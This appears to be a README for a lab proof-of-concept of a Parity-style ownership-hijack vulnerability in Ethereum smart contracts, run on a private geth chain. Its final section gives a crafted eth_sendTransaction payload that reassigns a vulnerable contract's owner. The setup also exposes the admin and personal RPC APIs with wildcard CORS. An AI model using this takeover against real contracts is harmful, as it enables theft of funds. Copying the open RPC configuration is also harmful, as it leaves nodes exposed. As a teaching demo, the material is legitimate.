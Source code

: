 # README

POC to showcase the HackParity Vulnerability in the ethereum blockchain. You can find more information about the attack in the `documentation.pdf` presentation

### I Prerequisite
If your node is supposed to be mining, you need to have at least 4GB of RAM of the local machine running your node

### II Set up your Private Blochain

Correctly configure your `genesis.json` block such as:
```javascript
{
    "config":{
        "chainId":15,
        "homesteadBlock":0,
        "eip155Block":0,
        "eip158Block":0
        },
    "difficulty": "0x400",
    "gasLimit":  "0x80000000",
    "alloc": {
         "d19167868388e320f09d5de3f8d5927f78bc6ce4":{"balance":"3000000"}
    },
    "nonce": "0x0000042",
    "timestamp": "0",
    "parentHash": "0x0000000000000000000000000000000000000000000000000000000000000000",
    "mixhash": "0x0000000000000000000000000000000000000000000000000000000000000000",
    "coinbase": "0x3333333333333333333333333333333333333333"
}
```

Init your blockchain : 
```shell
geth --datadir data/db/ init genesis.json
```

The information of the blockchain will be in `data/db/`. Everytime you start your blockchain, it will read the information needed there. Unlike what's commonly thought, the `networkid` is just a mean of connecting nodes between them, the data comes from that `--datadir` option.

We will then need to create an account usable and credit it. 

Launch your private blockchain
```shell
geth --nodiscover --datadir data/db --networkid 15 --rpc --rpcapi personal,web3,eth,accounts,admin,miner,net,txpool --identity block1 --rpccorsdomain "*" --rpcaddr <ip> --mine --gasprice "1"
```

Use the javascript console to interact with it :

```shell
geth attach <datadir>/geth.ipc
```

In the ethereum javascript console : 
```javascript
personal.newAccount("yourPassword")
```

Take the address of your new account and paste it into your `genesis.json` file, in the `alloc` property, instead of the `d19167868388e320f09d5de3f8d5927f78bc6ce4` address.

You now have an account that's ready to be used, but it still needs to get credited some money.
For that, we will re-init our blockchain.
Exit your ethereum javascript console and do the following :

```shell
$ cd <datadir>
$ rm -rf geth/
```

This allows you to destroy any information on the blockchain but the accounts created.

Init your blockchain again, this time it will credit your account.

```shell
geth --datadir data/db/ init genesis.json
```

Launch it again
```shell
geth --nodiscover --datadir data/db --networkid 15 --rpc --rpcapi personal,web3,eth,accounts,admin,miner,net,txpool --identity block1 --rpccorsdomain "*" --rpcaddr <ip> --mine --gasprice "1"
```

You are ready to go !

### III Interact with a smart contract using Solidity Browser

Start by pasting your smart contract in the code edition window.

If your code has no warnings you are ready to go.

In the top-right corner, select ```Run``` then ```Environment```, ```Web3Provider```. Type the url and port towards your ethereum node.

Be careful though, you might need to connect to the solidity-browser interface via http, and not https !


Once the connection is made, you should see your blockchain accounts in the ```Accounts``` list. Select the account you want to pay for the mining and click on ```Create```.

The console will indicate when the mining is successful, or if you need to unlock that account.
If you need to unlock your account, go to your geth console : 

```bash
geth attach $datadir/geth.ipc
``` 

on your node, and type 

```javascript
personal.unlockAccount('youraccount', 'password', duration)
```

Duration should be the time of unlocking in second. You can then go back to solidity-browser, and create your smart contract for good.
When it is mined, an interface to interact with it should appear on the bottom-right.

### IV HackParity Vulnerability

To exploit the HackParity-like smart contract we developed :

Copy/Paste it in a fresh window of the Smart Contract Window of our interface.

On the Run tab, select ```TestLibrary```, mine it.

Paste the address of the library in the ```_library variable``` of the smart contract ```Vulnerable Contract```. 

Mine your ```VulnerableContract```.

Your contract now has an owner which is the person who sent the transaction which created the contract.
To hack it and change its owner, format a transaction like following :


```json
{"jsonrpc":"2.0",
"method":"eth_sendTransaction",
"params":
[
    {"from": "<anyAddressWithMoney>", 
    "to": "<smartContractAddress>", 
    "data": "0x19ab453c000000000000000000000000<newOwnerAddress>", 
    "gas":"0x5ee0d",
    "gasprice":"0x1"}],
"id":"<any int>"}
```

Care with the gas. A gas estimate will only compute how much gas you need to send the transaction, not how much you need to execute the smart contract function. 300000 gas is a good start.
Be careful, parameters must be sent in hexa.    
